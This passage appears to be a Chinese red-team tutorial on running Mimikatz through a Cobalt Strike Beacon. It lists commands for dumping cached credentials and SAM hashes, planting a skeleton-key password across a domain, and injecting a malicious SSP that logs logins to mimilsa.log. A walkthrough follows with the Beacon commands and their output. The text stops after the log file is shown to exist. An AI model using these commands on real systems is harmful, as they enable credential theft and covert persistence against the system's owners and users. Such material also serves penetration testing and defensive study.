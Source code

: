 ### Beacon 中的 Mimikatz

在 Beacon 中集成了 mimikatz ，mimikatz 执行命令有三种形式：

- mimikatz [module::command] <args> 运行 mimikatz 命令
- mimikatz [!module::command] <args> 强制提升到 SYSTEM 权限再运行命令，因为一些命令只有在 SYSTEM 身份下才能被运行。
- mimikatz [@module::command] <args> 使用当前 Beacon 的访问令牌运行 mimikatz 命令

下面是一些mimikatz命令。

- !lsadump::cache 获取缓存凭证，默认情况下 Windows 会缓存最近10个密码哈希
- !lsadump::sam 获取本地账户密码哈希，该命令与 hashdump 比较类似
- misc::cmd 如果注册表中禁用了 CMD ，就重新启用它
- !misc::memssp 注入恶意的 Windows SSP 来记录本地身份验证凭据，这个凭证存储在“C:\windows\system32\mimilsa.log”中
- misc::skeleton 该命令仅限域内使用。该命令会给所有域内用户添加一个相同的密码，域内所有的用户都可以使用这个密码进行认证，同时原始密码也可以使用,其原理是对 lsass.exe 进行注入，重启后会失效。
- process::suspend [pid] 挂起某个进程，但是不结束它
- process::resume [pid] 恢复挂起的进程

以上的这些只是mimikatz能做事情的一小部分，下面看看!misc::memssp的使用。

```
mimikatz !misc::memssp
cd C:\Windows\system32
shell dir mimilsa.log
shell type mimilsa.log
```

详细运行过程：
首先运行mimikatz !misc::memssp

```
beacon> mimikatz !misc::memssp
[*] Tasked beacon to run mimikatz's !misc::memssp command
[+] host called home, sent: 1006151 bytes
[+] received output:
Injected =)
```

接下来来到C:\Windows\system32目录

```
beacon> cd C:\Windows\system32
[*] cd C:\Windows\system32
[+] host called home, sent: 27 bytes
 
beacon> shell dir mimilsa.log
[*] Tasked beacon to run: dir mimilsa.log
[+] host called home, sent: 46 bytes
[+] received output:
 驱动器 C 中的卷没有标签。
 卷的序列号是 BE29-9C84
 
 C:\Windows\system32 的目录
 
2020/07/23  21:47                24 mimilsa.log
               1 个文件             24 字节
               0 个目录 17,394,728,960 可用字节
```

